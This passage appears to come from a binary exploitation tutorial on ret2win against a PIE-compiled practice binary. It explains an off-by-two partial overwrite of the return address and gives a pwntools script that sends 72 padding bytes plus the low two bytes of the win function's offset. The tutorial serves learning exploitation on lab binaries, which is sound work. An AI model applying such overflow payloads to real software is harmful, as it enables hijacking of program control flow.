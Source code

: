 ## With PIE

{% hint style="success" %}
Compile the binary **without the `-no-pie` argument**
{% endhint %}

### Off-by-2

Without a leak we don't know the exact address of the winning function but we can know the offset of the function from the binary and knowing that the return address we are overwriting is already pointing to a close address, it's possible to leak the offset to the win function (**0x7d4**) in this case and just use that offset:

<figure><img src="../../../.gitbook/assets/image (1213).png" alt="" width="563"><figcaption></figcaption></figure>

```python
from pwn import *

# Configuration
binary_name = './ret2win'
p = process(binary_name)

# Prepare the payload
offset = 72
ret2win_addr = p16(0x07d4)
payload = b'A' * offset + ret2win_addr

# Send the payload
p.send(payload)

# Check response
print(p.recvline())
p.close()
```

